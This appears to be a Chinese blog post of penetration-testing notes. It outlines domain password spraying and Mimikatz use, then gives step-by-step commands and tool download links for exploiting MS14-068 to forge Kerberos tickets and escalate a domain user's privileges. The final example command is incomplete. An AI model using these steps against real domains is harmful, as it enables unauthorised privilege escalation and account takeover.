 ```yaml
---
layout: post
title:  内网渗透思路
categories: 安全知识
description:  内网渗透思路
keywords: 渗透
---
```


# 渗透流程


1. 收集域控信息
2. 密码爆破
3. 用户提权

## 二、域密码喷洒

[利用一个powershell工具完成 DomainPasswordSpray
](https://blog.csdn.net/qq_41874930/article/details/109308519)
利用工具：[DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)


## 三、 用户提权

使用 Mimikatz

https://www.cnblogs.com/-mo-/p/11890232.html

# Kerberos域用户提权漏洞（MS14-068）分析与防范

## 工具下载
Ms14-068.exe 下载地址:https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068

PSexec 下载地址:https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe

mimikatz 下载地址:https://github.com/gentilkiwi/mimikatz/releases


## 一、查看域控制器的补丁安装情况
微软针对 MS14-068 漏洞提供补丁为 `KB3011780` 。输入命令查看补丁情况：

```
wmic qfe get hotfixid 

```
![](https://ask.qcloudimg.com/http-save/yehe-5487096/0xwlav6oci.png?imageView2/2/w/1620)
可以看到域控机器没有安装补丁。

## 二、查看用户的 SID

以用户 mary 身份登录，输入命令查看 SID 为：S-1-5-21-1218902331-2157346161-1782232778-1124

```dotnetcli
whoami /user
```

还可以使用这条命令获取域内所有用户的 SID：

```
wmic useraccount get name,sid
```
## 三、查看域控制器的主机名

获取域控主机名 / IP 地址

```dotnetcli
net group "Domain controllers" /domain
********
ping 主机名

```

![](https://i.loli.net/2020/01/09/C8m2XV63IKjzMtd.png)

> 注意不要带 $ 符号

# 四、利用ms14-068.exe 工具生成伪造的kerberos协议认证证书


 ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip
 ms-14-068.exe -u   域用户@域控名  -p 域用户密码 -s 域用户sid -d 域ip


例如：
```dotnetcli

Authentication Id : 0 ; 434243 (00000000:00075558)
Session           : Interactive from 1
User Name         : zhangsan
Domain            : test
Logon Server      : ABF
Logon Time        : 2022/4/22 9:44:37
SID               : S-1-5-21-2872597263-2872597263-2872597263-1111
```
 ms-14-068.exe -u   zhangsan@test.com  -p 域用户密码 -s S-1-5-21-2872597263-2872597263-2872597263-1111 -d 




# 知识拓展
2.查看域控制器的主机名
Nslookup -type=SRV _ldap._tcp

## 工具
https://github.com/gentilkiwi/kekeo


# 参考

https://cloud.tencent.com/developer/article/1760132

https://lionking.top/2020/01/09/MS14-068%E6%8E%92%E9%94%99+%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0/